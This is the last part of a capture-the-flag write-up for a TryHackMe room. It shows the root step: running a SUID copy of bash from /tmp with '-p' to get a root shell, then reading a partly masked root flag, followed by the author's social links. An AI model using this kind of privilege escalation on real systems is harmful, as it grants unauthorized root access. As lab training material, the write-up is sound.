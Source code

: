 after 2 minutes run `/tmp/bash -p` to gain root :
```js
bash-4.3$ /tmp/bash -p
bash-4.3# whoami
root
```
## Root flag 
```js
bash-4.3# cat root.txt
thm{9f85b7fdeb2cf96985bf5761..........}
```
Finished. Happy Hacking!
---

<iframe src="https://tryhackme.com/api/v2/badges/public-profile?userPublicId=3186403" style='border:none;'></iframe>

Follow me:
- [LinkedIn](https://www.linkedin.com/in/t4t4r1s/)
- [X](https://x.com/T4T4R1S)
---
